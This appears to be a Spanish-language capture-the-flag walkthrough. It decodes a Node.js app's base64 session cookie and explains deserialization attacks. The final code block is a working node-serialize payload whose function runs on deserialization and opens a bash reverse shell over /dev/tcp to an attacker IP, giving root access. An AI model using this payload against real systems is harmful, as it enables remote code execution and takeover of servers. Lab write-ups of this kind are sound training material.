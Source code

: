 Tras mucho rato revisando la conversación, el código fuente, buscando subdirectorios, intentos de ejecutar comandos con el chat, intentar acceder como el usuario shadow que aparece en los logs,... y no obtener nada, revisamos la cookie de sesión **eyJ1c2VybmFtZSI6ImNpc2NvIn0%3D**

![cookie](screenshots/cookie.png)

Podemos ver como está urlencodeada, así que la decodificamos usando la web de https://www.urldecoder.org/es/, obtenemos el valor eyJ1c2VybmFtZSI6ImNpc2NvIn0= y lo decodificamos con base64.

```bash
echo 'eyJ1c2VybmFtZSI6ImNpc2NvIn0=' | base64 -d 
```

Obtenemos --> **{"username":"cisco"}**

Este objeto se deserializa por el servidor de node para comprobar el usuario, así que vamos a intentar un Ataque de Deserialización con una IIFE.

Los Ataques de Deserialización son un tipo de ataque que aprovecha las vulnerabilidades en los procesos de serialización y deserialización de objetos en aplicaciones que utilizan la programación orientada a objetos (POO).

Una IIFE, Inmediately Invoked Function Expression, es una función que se ejecuta tan pronto es definida. 

En este caso nos vamos a aprovechar de una mala validación de los datos en el proceso de deserialización de la cookie por el servidor de node.

Así que usaremos el siguiente payload con una IIFE, la cual una vez sea deserializada por el servidor de node, nos mandará una shell al puerto 443 de nuestra máquina. Como el usuario root es quien está ejecutando node, recibiremos una shell privilegiada.

```javascript
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec(\"bash -c 'bash -i >& /dev/tcp/10.0.5.5/443 0>&1'\", function(error,stdout,stderr){})}()"}
```

